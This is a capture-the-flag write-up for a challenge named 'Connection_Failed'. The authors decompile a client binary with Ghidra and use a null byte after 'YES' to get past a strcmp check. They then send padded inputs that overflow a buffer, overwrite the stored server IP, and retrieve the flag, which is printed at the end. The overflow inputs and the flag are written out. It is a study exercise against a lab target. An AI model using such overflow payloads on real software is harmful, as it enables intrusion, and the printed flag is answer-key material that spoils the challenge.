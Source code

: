 # Connection_Failed

---

In this challenge we have message, and a interactive shell using netcat, and `Connection_failed.zip` which contains server and client files

##### Message

> Can you help me in establishing a connection and get the flag?

```
nc 0.cloud.chals.io 24939
```

##### Goal

We need to establish the connection to recive the flag from the server.

##### Solution

First step

Using ghidra, we deassembled and decomplied both client and server file. Then we noticed few things.

First one:

```
iVar1 = strcmp((char *)&local_3c,"YES");
  if (iVar1 == 0) {
    iVar1 = socket(2,1,0);
    if (iVar1 < 0) {
      puts("\n Socket creation error ");
      uVar3 = 0xffffffff;
    }
    else {
      iVar2 = inet_pton(2,(char *)&local_32,local_54);
      if (iVar2 < 1) {
        puts("\nInvalid address/ Address not supported ");
        uVar3 = 0xffffffff;
      }
```

It is using strcmp to compare between our input and the string "YES"

Second one:

```
local_33 = 0x33332e312e373231;
local_2b = 0x372e;
```

Means we the server ip on localhost is `127.1.33.7`

###### Buffer Overflow

After few different ideas, we trying to assert a null byte to abuse strcmp mechanic

```
YES\0AAAAAA
```

And we noticed a different message

> Invalid address/ Address not supported

Which means the null byte works.

Next, we tried to changed the ip using Buffer overflow to override the property of `local_32` on client.c file which is the ip address of the server with different paddings:

```
YES\0A127.1.33.7
YES\0AA127.1.33.7
YES\0AAA127.1.33.7
YES\0AAAA127.1.33.7
YES\0AAAAA127.1.33.7
YES\0AAAAAA127.1.33.7
```

##### Plan:

- Abuse strcmp mechanic using nullbyte `\0`
- Create a buffer overflow to override the ip with the correct ip address of the server.
- Get the flag

##### Output:

Do you want the flag ?
Request flag from the server
Server response

##### Flag

```
MCL{1t5_51mpLE_b0f}
```
